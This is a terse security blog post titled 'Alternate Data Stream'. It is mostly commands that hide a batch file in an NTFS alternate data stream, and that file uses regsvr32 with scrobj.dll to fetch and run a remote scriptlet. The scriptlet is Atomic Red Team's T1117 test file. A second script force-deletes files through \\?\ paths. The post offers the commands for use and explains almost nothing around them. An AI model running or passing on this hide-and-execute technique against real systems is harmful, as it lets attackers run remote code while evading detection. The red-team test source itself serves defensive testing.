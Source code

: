 ```yaml
---
author: XhstormR
categories:
- security
date: 2019-09-30T19:31:07+08:00
title: Alternate Data Stream
---
```


<!--more-->

Updated on 2019-09-30

```bash
cmd.exe /c echo regsvr32.exe ^/s ^/u ^/i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct ^scrobj.dll > ...:payload.bat

cmd.exe - < ...:payload.bat
```

### delete.bat
```bash
DEL /F /A /Q \\?\%1
RD /S /Q \\?\%1
```
